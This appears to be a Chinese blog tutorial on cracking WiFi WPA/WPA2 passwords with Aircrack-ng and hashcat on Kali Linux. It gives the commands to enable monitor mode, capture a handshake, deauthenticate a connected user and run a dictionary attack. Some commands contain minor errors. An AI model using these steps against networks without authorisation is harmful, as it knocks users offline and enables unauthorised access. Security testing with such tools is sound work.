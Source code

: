 title: Aircrack-ng 爆破 wifi 密码
author: l1n6yun
tags:
  - kali
  - wifi
categories: []
date: 2020-06-04 00:00:00
---
Aircrack-ng是一个基于WiFi无线网络分析有关的安全软件，主要功能有网络侦测、数据包嗅探、WEP和WPA/WPA2-PSK破解等。
因为安全性的原因。现在，周围很少有用WEP算法来加密的WiFi密码，不过基本命令都很相似。

WiFi网络构成

1. WiFi是一个建立于IEEE 802.11标准的无线局域网络（WLAN）设备。
2. WiFi工作原理AP(Access Point 例如：无线路由器)每100ms将SSID（Service Set Identifier）经由beacons（信号台）封包广播一次。

#### 查看网卡信息
```shell
iwconfig
```

![upload successful](/images/pasted-57.png)

#### 启动监听模式

```shell
airmon-ng start wlan0
```

![upload successful](/images/pasted-58.png)

#### 准备抓取握手包

```shell
airodump-ng -c 6 -bssid 64:6E:97:DA:39:5C -w thomas wlan0
```

- -c：信道号
- --bssid：apMAC
- -w：保存的文件名

![upload successful](/images/pasted-59.png)

扫描到的WiFi热点信息

- BSSID：WiFi路由器的MAC地址
- PWR：网卡报告信号水平，信号值越高说明离AP越近。（PWR=-1，网卡驱动不支持报告此项信息）
- Beacons：无线AP发出的通告编号
- #Data：被捕获到的数据分组的数量（一般数据量越大，抓取握手包更容易）
- #/s：过去10秒钟内每秒捕获数据分组的数量
- CH：信道号（从Beacon中获取）
- MB：无线AP所支持的最大速率
- ENC：加密算法体系
- CIPHER：加密算法
- AUTH：使用的认证协议
- ESSID：wifi名称

使已连接WiFi的用户A强制下线，之后A会向WiFi路由重新发送一个带密码的请求握手包

```shell
aireplay-ng -0 2 -a 64:6E:97:DA:39:5C -c C2:46:34:ED:48:4C wlan0
```

- -0：攻击数据包数量
- -a：WiFi MAC 地址
- -c：用户 MAC 地址

![upload successful](/images/pasted-60.png)

出现 `WAP handshake` 表示已经获取到了握手包，下面就可以实现破解了

![upload successful](/images/pasted-61.png)

#### 开始爆破

```shell
aircrack-ng -w pass.txt thomas-01.cap
```

- -w：字典文件路径

![upload successful](/images/pasted-62.png)

#### hashcat

关于密码破解，可以使用kali自带的hashcat使效率大大增加

```
aircrack-ng [抓取到的握手包文件名] -J [转换后的文件名]
hashcat -m 2500 .hccap password.txt
```
参数： -m 2500为破解的模式为WPA/PSK方式  hccap格式的文件是刚刚转化好的文件  字典文件 
 
注：最新版hashcat一般情况下不支持hccap格式，第一步需将握手包cap格式转换为hccapx